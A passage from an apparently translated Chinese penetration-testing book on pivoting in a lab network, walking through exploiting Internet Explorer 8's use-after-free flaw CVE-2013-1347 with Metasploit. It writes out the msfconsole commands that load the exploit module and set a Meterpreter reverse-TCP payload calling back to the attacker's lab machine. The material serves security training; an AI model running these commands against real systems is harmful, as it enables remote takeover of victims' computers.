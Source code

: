 为了确定我们潜在的支点，我们首先需要开发一台机器。然后，我们需要检查连接到另一个网络的机器中的第二个网卡，如果不使用我们利用的机器，我们无法访问该网卡。作为本书中的一个示例，我们将使用三台机器，其中 Kali Linux 机器作为攻击者，Windows XP 机器作为第一个受害者，Windows Server 2003 机器作为第二个受害者。这种情况是，我们让一个客户端访问我们的恶意站点，并对 Microsoft Internet Explorer 使用名为“免费后使用”*的漏洞攻击。这种类型的漏洞一直困扰着该产品的许多修订版。利用数据库网站的以下截图显示了一个例子：*

![Pivoting](img/477-1_12_15.jpg)

列表顶部列出的漏洞是针对 Internet Explorer 9 的漏洞。作为本书中的一个例子，我们将针对针对 InternetExplorer8 的漏洞攻击；攻击的概念是相同的。简单地说，Internet Explorer 开发人员继续犯分配内存后不清理内存的错误。

通过输入`msfconsole`启动 metasploit 工具。控制台打开后，输入`search cve-2013-1347`搜索漏洞。以下屏幕截图显示了搜索结果的示例：

![Pivoting](img/477-1_12_16.jpg)

一个问题是它被评为好的，但是当我们选择我们的漏洞时，我们喜欢找到优秀或更好的评级。为了我们的目的，我们将看看我们是否能使它发挥作用。当然，我们总是有机会找不到我们需要的东西，必须做出选择，要么编写自己的漏洞，要么记录它，然后继续测试。

对于我们在书中使用的示例，Kali 机器是 192.168.177.170，这是我们设置`LHOST`的值。出于您的目的，您必须使用您拥有的 Kali 地址。我们将在 metasploit 窗口中输入以下命令：

```
use exploit/windows/browser/ie_cgenericelement_uaf
set SRVHOST 192.168.177.170
set LHOST 192.168.177.170
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

```

以下屏幕截图显示了上述命令的结果示例：

![Pivoting](img/477-1_12_17.jpg)
